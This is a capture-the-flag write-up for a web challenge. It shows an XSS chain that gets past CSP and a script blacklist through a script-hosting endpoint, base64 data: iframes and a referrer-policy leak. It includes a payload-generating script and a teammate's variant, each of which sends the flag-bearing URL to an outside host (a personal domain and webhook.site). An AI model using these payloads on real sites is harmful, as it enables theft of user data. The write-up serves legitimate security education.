 ```yaml
---
created: 2025-06-06T17:44
updated: 2025-06-08T12:05
solves: 31
points: 477
---
```


It was immediately clear that we can get a 'hosted' JS endpoint with `/gen`.

This allows us to bypass the CSP and run scripts under `script-src 'self';`.

```
https://double-nested.tjc.tf/gen?query=1=1=1=alert(1)
```

And we can use base64 iframes to bypass the `script` blacklist (sort of).

*payload layer 1*

```html
<script src="https://double-nested.tjc.tf/gen?query=1=1=1=alert%281%29"></script>
```

*payload layer 2*

```html
<iframe src='data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PTE9MT0xPWFsZXJ0JTI4MSUyOSI+PC9zY3JpcHQ+'></iframe>
```

*final url*

```
https://double-nested.tjc.tf/?i=1%3D1%3D1%3D%3Ciframe+src%3D%27data%3Atext%2Fhtml%3Bbase64%2CPHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PTE9MT0xPWFsZXJ0JTI4MSUyOSI%2BPC9zY3JpcHQ%2B%27%3E%3C%2Fiframe%3E
```

This will show an alert.

Ok so how do we get the flag?

## get the flag

```js
await page.goto(url + flag, { timeout: 3000, waitUntil: 'domcontentloaded' });
```

In the partial source given, we can see that the flag is included in the url, if we can access the query, hash or the url in any way we could get the flag.

But how do we get the parent's location url?

Reading it directly fails.

```
Uncaught SecurityError: Failed to read a named property 'href' from 'Location': Blocked a frame with origin "null" from accessing a cross-origin frame.
```

I tried using `<iframe srcdoc>` but I run into the problem of not able to bypass the blacklist on `script` or `&`.

I tried fancy `#:~:text=<text>` but it doesn't highlight text inside of an iframe.

My teammate shared a tweet with me [https://x.com/slonser_/status/1919439373986107814](https://x.com/slonser_/status/1919439373986107814 "https://x.com/slonser_/status/1919439373986107814")

Basically something along chrome leaking the full url with `referrer`.

However their poc don't work since images are blocked.

Then, I was reading through the documentations of `<iframe>` and then I realized that it also has `referrerPolicy` attribute.

Hrm... Let's just try it out, since I had referrer on my mind.

And it works, `document.referrer` now contains the full URL of the page that contains the `<iframe>`.

```python
import base64
import urllib.parse

from server import webhook

js_payload = urllib.parse.quote_plus(f"""
top.location = 'https://1337.yun.ng?i='+window['doc'+'ument'].referrer
""".strip())

html_payload = f"""
<script src="https://double-nested.tjc.tf/gen?query=1=1=1={js_payload}"></script>
""".strip()

b64payload = base64.b64encode(html_payload.encode()).decode()
payload = f"""
1=1=1=<iframe referrerpolicy='unsafe-url' src='data:text/html;base64,{b64payload}'>
""".strip()

print("https://double-nested.tjc.tf/?i="+urllib.parse.quote_plus(payload)+"flag{dummy}")

stop, wait = webhook(1337)
while True:
    wait()
```

```
Referer: https://1337.yun.ng/?i=https://double-nested.tjc.tf/?i=1%3D1%3D1%3D%3Ciframe+referrerpolicy%3D%27unsafe-url%27+src%3D%27data%3Atext%2Fhtml%3Bbase64%2CPHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PTE9MT0xPXRvcC5sb2NhdGlvbislM0QrJTI3aHR0cHMlM0ElMkYlMkYxMzM3Lnl1bi5uZyUzRmklM0QlMjclMkJ3aW5kb3clNUIlMjdkb2MlMjclMkIlMjd1bWVudCUyNyU1RC5yZWZlcnJlciI%2BPC9zY3JpcHQ%2B%27%3Eflag{dummy}tjctf{1t_w4s_4ll_scr1pt3d413a98u0}
```

```flag
tjctf{1t_w4s_4ll_scr1pt3d413a98u0}
```

---

My teammate @T!T4N had a different solve.

He used an `name` attribute which had no quotes so the flag would become the `window.name` of the child frame.

```html
<iframe src='data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PTE9MT0xPXRvcC5sb2NhdGlvbiUzRCUyN2h0dHBzJTNBJTJGJTJGd2ViaG9vay5zaXRlL2I5ZmRmMTA5LWNmYTMtNDdhMy05ZjMzLTc3ZDhlODYxYzAyMz8lMjclMkJ3aW5kb3cubmFtZSI+PC9zY3JpcHQ+' name=
```

Which then loads the script that leaks window.name to a webhook.

```html
<script src="https://double-nested.tjc.tf/gen?query=1=1=1=top.location%3D%27https%3A%2F%2Fwebhook.site/b9fdf109-cfa3-47a3-9f33-77d8e861c023?%27%2Bwindow.name"></script>
```

I do think we both had unintended solves, the regex part `re.sub(r"^(.*?=){,3}", "", input)` was completely useless to us, and the challenge's description has something on the filters which we didn't really exploit.
